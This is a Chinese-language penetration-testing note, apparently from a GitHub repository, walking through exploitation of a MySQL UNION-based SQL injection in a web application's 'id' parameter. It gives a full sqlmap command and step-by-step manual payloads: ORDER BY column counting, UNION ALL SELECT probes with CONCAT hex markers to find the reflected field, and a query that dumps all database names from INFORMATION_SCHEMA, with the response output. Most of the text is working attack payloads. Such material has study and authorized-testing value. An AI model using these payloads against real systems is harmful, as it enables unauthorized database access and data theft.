 
### 案例2 MySQL - UNION query

* 场景 - windows服务器的web应用 参数id 存在SQLi 类型为`UNION query`
  * 操作系统:无关
  * 数据库类型:MySQL
  * SQLi类型:`UNION query`


【实际测试】获取数据-自动化
```shell
# 指定技术为U
python sqlmap.py -r /Users/xxx/Downloads/req.txt --proxy=socks5://127.0.0.1:1081 -p uid --dbms=mysql -p id -v  5 --tech=U --dbs
```

【实际测试】获取数据-手工的具体过程
```
# 手工利用第0步 🌹确认SQLi是否存在

# id参数的值为
1234' ORDER BY 10-- mucA

# 使用二分法 根据Response长度、内容的不同 逐步确定了UNION共可查16个字段

-----

# 手工利用第1步 🌹依次测试每个字段 看哪个字段会回显到Response

# id参数的值为
1234' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71626b7171,(CASE WHEN (17=17) THEN 1 ELSE 0 END),0x716b717671),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- ziys

# 观察Response body
# 发现Response body中有字符串 qbkqq1qbkqq

# 格式为 [前缀][数据][后缀]
# [前缀]和[后缀]的作用是方便匹配到获取到的[数据]
# 这里前缀和后缀都是qbkqq  [数据]即
1
# 所以 第9个字段可以回显到Response

-----

# 手工利用第2步 🌹再次确认 在使用MySQL的CONCAT函数的情况下 该字段是否仍会回显到Response

# id参数的值为
1234' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162716a71,0x6151484a717561715a4f44725a75456a45,0x7162766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- CkJc

# Type: UNION query
# Title: Generic UNION query (NULL) - 16 columns
# 确认 在使用MySQL的CONCAT函数的情况下 该字段仍会回显到Response

-----

# 手工利用第3步 🌹获取数据 如获取所有数据库的名称

# id参数的值为
1234' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162716a71,IFNULL(CAST(schema_name AS NCHAR),0x20),0x7162766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA-- MzIj

# 观察Response body
# 发现Response body中有字符串
<td>qbqjqinformation_schemaqbvjq</td>
```